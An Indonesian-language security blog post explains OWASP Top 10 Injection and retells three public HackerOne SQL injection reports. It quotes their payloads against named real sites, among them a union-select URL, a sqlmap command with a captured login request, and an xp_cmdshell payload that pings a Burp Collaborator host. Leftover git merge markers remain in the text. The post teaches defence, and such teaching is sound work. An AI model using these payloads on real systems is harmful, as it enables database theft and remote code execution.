






=======
categories: ["Owasp Top Ten"]
tags: ['security']
description: "OWASP Top 10 — A3: Injection adalah kerentanan yang terjadi ketika aplikasi menerima dan mengeksekusi input berbahaya tanpa validasi, memungkinkan serangan seperti SQL Injection, Command Injection, dan Cross-Site Scripting (XSS). Pencegahan meliputi penggunaan parameterized queries, input validation, dan escaping karakter berbahaya."
disableHLJS: true 
disableShare: false
disableHLJS: false
hideSummary: false
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: true
ShowRssButtonInSectionTermList: true
UseHugoToc: true
---


>>>>>>> fd99555 (Update rebelsec.id Site)

## Pengantar

Artikel kali ini kita akan membahas owasp top 10 yang ada di urutan ketiga untuk tahun 2021 (owasp tiap 4 tahun sekali), ialah **Injection**.

OWASP merupakan singkatan dari _Open Web Application Security Project_, yang merupakan sebuah project _Security Web Application_ open source yang diperkasai oleh para penggiat teknologi atau pengembang aplikasi, OWASP sering mengadakan seminar, forum diskusi serta pendidikan untuk para Developer.

jadi yang dimaksud **OWASP TOP 10**? owasp top 10 merupakan sebuah cara untuk mengkategorikan resiko kerentanan yang sering terjadi pada sebuah aplikasi berbasis website, dari yang paling atas (resiko tertinggi) hingga yang paling bawah (tingkat resiko rendah), Tujuannya apa ?, tentu saja ini sangat berguna bagi para developer aplikasi supaya mereka jadi lebih aware terhadap kerentanan di aplikasi mereka.

## Injection

### Apa itu Injection ?

**Injection** merupakan sebuah kondisi yangg dimana aplikasi dapat memproses sebuah inputan user padahal itu **Tidak Valid** yang dapat membuat aplikasi/sistem itu menjalankan perintah yang **tidak seharusnya**.

<<<<<<< HEAD

=======

>>>>>>> fd99555 (Update rebelsec.id Site)

dapat diambil kesimpulan dari gambaar di atas bahwa attacker membuat/menulis sebuah **Malicious** / kode yang berbahaya, kemudian mengirim data(kode) tersebut ke aplikasi, sayangnya aplikasi/website itu tidak cukup baik dalam melakukan filtering dan validasi kembali dari user sehingga mengakibatkan kode yang di input oleh user tadi dijalankan oleh aplikasi/website itu sendiri.

Nah... jika aplikasi tersebut terdapat kerentanan seperti di atas akibatnya attacker dapat mengontrol aplikasi itu sendiri dengan **Malicious code** tadi.

di tahun" sebelumnya kerentanan **Injection** ini cukup sering terjadi, dikarenakan beberapa developer belum terlalu peduli / **acuh tak acuh** terhadap serangan ini.

di tahun 2021 ke atas baru OWASP TOP 10 **merangking** kerentanan ini di urutan ketiga, dikarenakan para developer sudah pada peduli (**Secure Coding**).

Hal - Hal yang serin terjadi di **Injection** ini :

- Aplikasi menerima semua inputan user tanpa **Filtering**
- Tidak melakukan Validasi kembali

## Praktikal

Berikut saya cantumkan beberapa contoh report dari orang lain di celah keamanan **Injection** :

### #1046084 SQL Injection Union Based

Sumber : https://hackerone.com/reports/1046084

endpoint : https://intensedebate.com/commenthistory/$YourSiteId

1. attacker login ke https://intensedebate.com

2. kemudian attacker membuat websitenya sendiri https://intensedebate.com/install

3. lalu pergi ke https://intensedebate.com/user-dashboard > Overview > (redirect to) https://intensedebate.com/dash/$YourSiteId

4. kemudian masukkan **Payload (Malicious code)** :

https://intensedebate.com/commenthistory/$YourSiteId%20union%20select%201,2,@@VERSION%23

kode pun terinjeksi oleh aplikasi

<<<<<<< HEAD


=======



>>>>>>> fd99555 (Update rebelsec.id Site)

### #1109311 SQL injection in acronis.cz via the log parameter

sumber : https://hackerone.com/reports/1109311

attacker menemukan kerentanan **sqli** di website **www.acronis.cz** dengan **POST** method request via log parameter, dengan bantuan tools **[Sqlmap](https://github.com/sqlmapproject/sqlmap)** sehingga mendapatkan isi database **'u_acronis@localhost''**

payload :

```
sqlmap -p log -r request-cz.txt --current-user  --level=2 --risk=2
```

```
POST /wp-login.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Referer: https://www.acronis.cz/
Cookie: PHPSESSID=tl1cf9spe0vih33iu0oi407sj9;leady_session_id=ba090174-dfd8-47d8-9fe3-8677d9d2bc7c;_fbp=fb.1.1614028220501.157613909;wordpress_test_cookie=WP+Cookie+check;wp-resetpass-d4279cb03f82f59849b53cff997b8a24=JJJ27QQQ%3AJJJ21QQQ
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate
Content-Length: 208
Host: www.acronis.cz
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36
Connection: Keep-alive
```

```
g-recaptcha-response=555&log=sample@mail.tst&pwd=g00dPa%24%24w0rD&redirect_to=https://www.acronis.cz/wp-admin/&rememberme=forever&testcookie=1&wp-submit=P%C5%99ihl%C3%A1sit%20se
```

impact :

attacker berhasil melakukan **Bypass di sistem aplikasi** yang mengakibatkan kebocoran database pada aplikasi tersebut.

### #816254 SQL injection on contactws.contact-sys.com in TScenObject action ScenObjects leads to remote code execution

sumber : https://hackerone.com/reports/816254

attacker menemukan sebuah dokumentasi API **TScenObject**, yang isinya kalau **ExpectSigned="No"** tidak memerlukan autentikasi, kemudian attacker membuat sebuah payload seperti dibawah ini :

```
SELECT *  FROM tblName WHERE id=<inject> order by STEP;
```

33; DECLARE @command varchar(255); SELECT @command='ping yhjbc2mndl88o89il3ueyud7zy5pte.burpcollaborator.net'; EXEC Master.dbo.xp_cmdshell @command; SELECT 1 as 'STEP'
``

untuk memastikan bahwa betul website ini rentan terhadap **SQLI** `sqlmap -r sqlitest.txt --batch --current-db --force-ssl`

```http
POST / HTTP/1.1
Host: contactws.contact-sys.com:3456
Content-Type: application/xml
Content-Length: 185

<REQUEST OBJECT_CLASS="TScenObject" ACTION="ScenObjects" SCEN_ID="33*" ExpectSigned="No" INT_SOFT_ID="DA61D1CE-757F-44C3-B3F7-11A026C37CD4" POINT_CODE="tzhr" lang="en"></REQUEST>
```

<<<<<<< HEAD

=======

>>>>>>> fd99555 (Update rebelsec.id Site)

kemudian attacker mengeskalasi kerentanan tersebut ke **RCETo** dengan bantuan **burp collaborator** :

```http
POST / HTTP/1.1
Host: contactws.contact-sys.com:3456
Content-Type: application/xml
Content-Length: 342

<REQUEST OBJECT_CLASS="TScenObject" ACTION="ScenObjects" SCEN_ID="33; DECLARE @command varchar(255); SELECT @command='ping yhjbc2mndl88o89il3ueyud7zy5pte.burpcollaborator.net'; EXEC Master.dbo.xp_cmdshell @command; SELECT 1 as 'STEP'" ExpectSigned="No" INT_SOFT_ID="DA61D1CE-757F-44C3-B3F7-11A026C37CD4" POINT_CODE="tzhr" lang="en"></REQUEST>
```

and monitor your DNS logs for the incoming ping request:

<<<<<<< HEAD

=======

>>>>>>> fd99555 (Update rebelsec.id Site)

kesimpulannya jika aplikasi tidak melakukan **filtering** maka akan mengganggu CIA Triad integrity, availability and confidentiality di aplikasi itu sendiri

## Mitigasi

- Memakai WAF (Web Aplication Firewall)
- Gunakan positive server-side input validation
- Melakukan LIMITASI request dari user

## Beberapa Referensi lainnya

[OWASP Proactive Controls: Secure Database Access](https://owasp.org/www-project-proactive-controls/v3/en/c3-secure-database)

[OWASP ASVS: V5 Input Validation and Encoding](https://owasp.org/www-project-application-security-verification-standard)

[05.7-Testing_for_ORM_Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/ORM)

[OWASP Cheat Sheet: Injection Prevention](https://cheatsheetseries.owasp.org/cheatsheets/Injection_Prevention_Cheat_Sheet.html)

[OWASP Cheat Sheet: SQL Injection Prevention](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)

[OWASP Cheat Sheet: Injection Prevention in Java](https://cheatsheetseries.owasp.org/cheatsheets/Injection_Prevention_Cheat_Sheet_in_Java.html)

[OWASP Cheat Sheet: Query Parameterization](https://cheatsheetseries.owasp.org/cheatsheets/Query_Parameterization_Cheat_Sheet.html)

[OWASP Automated Threats to Web Applications – OAT-014](https://owasp.org/www-project-automated-threats-to-web-applications/)

[PortSwigger: Server-side template injection](https://portswigger.net/kb/issues/00101080_serversidetemplateinjection)

## LIST CWE

[CWE-20 Improper Input Validation](https://cwe.mitre.org/data/definitions/20.html)

[CWE-74 Improper Neutralization of Special Elements in Output Used by a Downstream Component ('Injection')](https://cwe.mitre.org/data/definitions/74.html)

[CWE-75 Failure to Sanitize Special Elements into a Different Plane (Special Element Injection)](https://cwe.mitre.org/data/definitions/75.html)

[CWE-77 Improper Neutralization of Special Elements used in a Command ('Command Injection')](https://cwe.mitre.org/data/definitions/77.html)

[CWE-78 Improper Neutralization of Special Elements used in an OS Command ('OS Command Injection')](https://cwe.mitre.org/data/definitions/78.html)

[CWE-79 Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting')](https://cwe.mitre.org/data/definitions/79.html)

[CWE-80 Improper Neutralization of Script-Related HTML Tags in a Web Page (Basic XSS)](https://cwe.mitre.org/data/definitions/80.html)

[CWE-83 Improper Neutralization of Script in Attributes in a Web Page](https://cwe.mitre.org/data/definitions/83.html)

[CWE-87 Improper Neutralization of Alternate XSS Syntax](https://cwe.mitre.org/data/definitions/87.html)

[CWE-88 Improper Neutralization of Argument Delimiters in a Command ('Argument Injection')](https://cwe.mitre.org/data/definitions/88.html)

[CWE-89 Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')](https://cwe.mitre.org/data/definitions/89.html)

[CWE-90 Improper Neutralization of Special Elements used in an LDAP Query ('LDAP Injection')](https://cwe.mitre.org/data/definitions/90.html)

[CWE-91 XML Injection (aka Blind XPath Injection)](https://cwe.mitre.org/data/definitions/91.html)

[CWE-93 Improper Neutralization of CRLF Sequences ('CRLF Injection')](https://cwe.mitre.org/data/definitions/93.html)

[CWE-94 Improper Control of Generation of Code ('Code Injection')](https://cwe.mitre.org/data/definitions/94.html)

[CWE-95 Improper Neutralization of Directives in Dynamically Evaluated Code ('Eval Injection')](https://cwe.mitre.org/data/definitions/95.html)

[CWE-96 Improper Neutralization of Directives in Statically Saved Code ('Static Code Injection')](https://cwe.mitre.org/data/definitions/96.html)

[CWE-97 Improper Neutralization of Server-Side Includes (SSI) Within a Web Page](https://cwe.mitre.org/data/definitions/97.html)

[CWE-98 Improper Control of Filename for Include Require Statement in PHP Program PHP Remote File Inclusion](https://cwe.mitre.org/data/definitions/98.html)

[CWE-99 Improper Control of Resource Identifiers ('Resource Injection')](https://cwe.mitre.org/data/definitions/99.html)

[CWE-100 Deprecated: Was catch-all for input validation issues](https://cwe.mitre.org/data/definitions/100.html)

[CWE-113 Improper Neutralization of CRLF Sequences in HTTP Headers ('HTTP Response Splitting')](https://cwe.mitre.org/data/definitions/113.html)

[CWE-116 Improper Encoding or Escaping of Output](https://cwe.mitre.org/data/definitions/116.html)

[CWE-138 Improper Neutralization of Special Elements](https://cwe.mitre.org/data/definitions/138.html)

[CWE-184 Incomplete List of Disallowed Inputs](https://cwe.mitre.org/data/definitions/184.html)

[CWE-470 Use of Externally-Controlled Input to Select Classes or Code ('Unsafe Reflection')](https://cwe.mitre.org/data/definitions/470.html)

[CWE-471 Modification of Assumed-Immutable Data (MAID)](https://cwe.mitre.org/data/definitions/471.html)

[CWE-564 SQL Injection: Hibernate](https://cwe.mitre.org/data/definitions/564.html)

[CWE-610 Externally Controlled Reference to a Resource in Another Sphere](https://cwe.mitre.org/data/definitions/610.html)

[CWE-643 Improper Neutralization of Data within XPath Expressions ('XPath Injection')](https://cwe.mitre.org/data/definitions/643.html)

[CWE-644 Improper Neutralization of HTTP Headers for Scripting Syntax](https://cwe.mitre.org/data/definitions/644.html)

[CWE-652 Improper Neutralization of Data within XQuery Expressions ('XQuery Injection')](https://cwe.mitre.org/data/definitions/652.html)

[CWE-917 Improper Neutralization of Special Elements used in an Expression Language Statement ('Expression Language Injection')](https://cwe.mitre.org/data/definitions/917.html)
